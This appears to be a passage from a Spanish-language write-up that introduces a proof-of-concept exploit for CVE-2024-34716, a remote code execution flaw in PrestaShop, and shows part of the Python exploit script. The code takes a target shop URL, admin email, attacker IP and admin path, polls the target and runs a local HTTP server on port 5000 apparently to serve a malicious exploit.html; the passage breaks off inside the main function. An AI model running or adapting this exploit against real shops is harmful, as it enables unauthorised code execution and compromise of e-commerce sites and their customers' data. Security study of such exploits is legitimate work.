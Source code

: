Analizamos el siguiente PoC del CVE para conseguir RCE en PrestaShop;

```python
import argparse, requests, subprocess, time, threading, atexit, http.server, socketserver,zipfile,shutil,os
from bs4 import BeautifulSoup


print_lock = threading.Lock()
stop_event = threading.Event()

def __parse_args():    
    parser = argparse.ArgumentParser(description="CVE-2024-34716 Exploit")
    parser.add_argument("--url", help="The Presta Shop base url.", required=True)
    parser.add_argument("--email", help="The email address of admin user.", required=True)
    parser.add_argument("--local-ip", help="Local HTTP Server IP.", required=True)
    parser.add_argument("--admin-path", help="The Presta Shop admin path.", required=True) 
    
    args = parser.parse_args()
    
    host_url = args.url
    email = args.email
    local_ip = args.local_ip
    admin_path = args.admin_path

    print("[X] Starting exploit with:")
    print(f"\tUrl: {host_url}")
    print(f"\tEmail: {email}")
    print(f"\tLocal IP: {local_ip}")
    print(f"\tAdmin Path: {admin_path}")
                
    return (host_url, email, local_ip, admin_path)
    
    
def send_get_requests(url, interval=5):
    while not stop_event.is_set():
        try:
            response = requests.get(url)
            if response.status_code == 504 or response.status_code == 200:
                stop_event.set()
                return
            print(f"GET request to {url}: {response.status_code}")
            
        except requests.RequestException as e:
            with print_lock:
                print(f"Error during GET request: {e}") # Can comment this out if thread isn't stopped.
        time.sleep(interval)


def run_http_server():
    PORT = 5000
    with socketserver.TCPServer(("", PORT), CustomRequestHandler) as httpd:
        with print_lock:
            print("Serving at http.Server on port", PORT)
        while not stop_event.is_set():
            httpd.handle_request()
        

def main():    
    host_url, email, local_ip, admin_path = __parse_args()

    with open('./exploit.html', 'r') as file:
        html_content = file.read()
```
